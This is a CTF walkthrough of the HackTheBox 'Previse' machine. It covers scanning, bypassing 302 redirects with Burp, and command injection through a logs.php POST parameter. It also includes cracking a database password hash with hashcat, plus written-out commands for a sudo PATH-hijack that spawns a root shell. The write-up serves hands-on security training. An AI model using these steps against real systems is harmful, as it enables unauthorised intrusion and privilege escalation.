*2021-10-29*

*kimm3*

# Walkthrough: Previse
Platform: HackTheBox

Difficulty: Easy

Good reference: [Ippsec, Bank](https://www.youtube.com/watch?v=JRPWFSzFaG0)

Uploaded after retirement:
## Setup


```
script history/enum1
export IP=10.10.11.104; ping $IP
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -v -A -oA scans/nmap-init`







Tried som basic credentials but didn't work. Did som web fuzzing and found a couple of redirects, and this 'nav.php':



If you look browse the page in Burp, you'll see that it lists a bunch of sites that we can't see. When browsing to one of the sites, it actually gets the site and then redirects you to the login page. It's a 302 FOUND with the actual content. Because of the 302, the browser will redirect you before you see it.



Response when accessing 'accounts.php':



In 'files.php' there's a link to a file.


We can easily replace the 302s with 200s and view them in browser with burp. Start the proxy, capture the responses and 'Match and Replace' 302 FOUND with 200 OK. Now you can surf via browser.





From here, we can add a user under the accounts page and log in.



There's one zip-file under files that contains the site.





Saving these credentials for later.



In 'logs.php', a system call is made to run a python script. It takes a parameter via a POST request. We can intercept this request and change it to run system commands for us.

**Note**

The encoding is important, run the calls in burps repeater and turn on "URL-Encode as you type".

Test command:

On host: `sudo tcpdump -i tun0 icmp`

delim parameter:



result(4 icmp echo request/replies):


## Foothold
Turn off the proxy, make sure you're logged in, and use repeater to send this command.





## Lateral movement
There's a user in the home folder with the user.txt, m4lwhere. But we cannot read it.

Let's try to connect to the db with the credentials we found.

```
which mysql
mysql -u root -p -D previse
```



We get the table name from the 'accounts.php'.

`SELECT * FROM accounts;`





`hashcat -a 0 -m 500 m4lwherehash ../sl/Passwords/Leaked-Databases/rockyou.txt`



## Privilege Escalation




Looks promising.



Since the script dosen't execute gzip with absolute path, we can exploit it by simply changing the path.

```
cd # Go to a writable folder
echo "/bin/bash" > gzip # Create a file that launches a shell
chmod 777 gzip # Make it executable
export PATH=/home/m4lwhere/:$PATH # Change path so that our file comes first
sudo /opt/scripts/access_backup.sh # Execute script as root
```



The shell didn't return any output. Started another reverse shell and got the output from there.


